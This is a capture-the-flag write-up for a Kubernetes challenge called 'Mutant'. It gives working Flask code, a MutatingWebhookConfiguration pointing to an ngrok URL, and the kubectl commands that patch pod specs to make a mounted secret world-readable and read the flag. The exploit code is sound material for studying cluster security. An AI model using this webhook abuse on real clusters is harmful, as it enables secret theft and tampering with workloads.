 
Mutant
cloud
🔥 kcal:  	263
Reps:  	14
Trainer:  	p4ck3t0

Train and do Kubernetes like a mutant!
We have two identical instances.

nc mutant.flu.xxx 8888

nc mutant2.flu.xxx 8888

The gym is closed. You cannot complete workouts anymore.


This challenge has 5 namespaces
'NAME              STATUS   AGE
default           Active   71s
flag-reader       Active   60s
kube-node-lease   Active   71s
kube-public       Active   71s
kube-system       Active   71s
mutant            Active   60s

$ kubectl get pods -n mutant
No resources found in mutant namespace.
$ kubectl get pods -n flag-reader
NAME                           READY   STATUS              RESTARTS   AGE
flag-reader                    0/1     ContainerCreating   0          2s
pod-applier-78fd9f7868-xdhhj   1/1     Running             0          100s

pod-applier pod is creating and destroying flag-reader pod continuously 

$ kubectl logs -f flag-reader -n flag-reader

Executing cat /flag/flag...
cat: can't open '/flag/flag': Permission denied

Shutting down...

now the thing is pod contains `flag` secret and pod  has not permission because we have different user who is trying to read the file but only owner has permission to read the secret. 
but webhookconfigurations permission is given. So we can mutate the webhook configuration. 

How it all works together:

When a pod is created or updated in the cluster, Kubernetes checks if there are any applicable webhooks.
It finds your MutatingWebhookConfiguration and sends an admission review to your ngrok URL.
ngrok forwards this request to your local Flask server.
Your Flask server receives the request, modifies the pod spec to change the secret's permissions, and sends back a response with the patch.
Kubernetes applies this patch before actually creating/updating the pod.
As a result, the flag-reader pod is created with the secret mounted with full permissions (0o777), allowing it to read the flag.

here is the flask server 
```
from flask import Flask, request, jsonify
import json
import base64

app = Flask(__name__)

@app.route('/mutate', methods=['POST'])
def mutate_pod():
    admission_review = request.get_json()
    admission_request = admission_review['request']

    pod = admission_request['object']

    if pod['metadata']['name'] == "flag-reader":
        pod['spec']['volumes'][0]['secret']['defaultMode'] = 0o777
        
    patch = [
        {
            "op": "replace",
            "path": "/spec/volumes/0/secret/defaultMode",
            "value": 0o777
        }
    ]

    patch_bytes = json.dumps(patch).encode('utf-8')
    patch_base64 = base64.b64encode(patch_bytes).decode('utf-8')

    admission_response = {
        "apiVersion": "admission.k8s.io/v1",
        "kind": "AdmissionReview",
        "response": {
            "uid": admission_request['uid'],
            "allowed": True,
            "patchType": "JSONPatch",
            "patch": patch_base64 
        }
    }

    return jsonify(admission_response)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

```
and here is the mutating webhook configuration 
```
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: mutate-flag-reader
webhooks:
  - name: mutate.flag-reader.k8s.io
    clientConfig:
      url: "https://e908-103-37-201-178.ngrok-free.app/mutate"
    rules:
      - operations: ["CREATE", "UPDATE"]
        apiGroups: [""]
        apiVersions: ["v1"]
        resources: ["pods"]
    sideEffects: None
    admissionReviewVersions: ["v1"]
    failurePolicy: Ignore
```

run the flask server 
```bash
$ python3 webhook.py
$ ngrok http 5000
$ kubectl apply -f webhook-config.yaml
```
then when pod-applier will create the flag-reader pod again, it is able to read the flag secret.
```
$ kubectl logs -f flag-reader -n flag-reader

Executing cat /flag/flag...
flag{get_those_ga1nz}

Shutting down..```
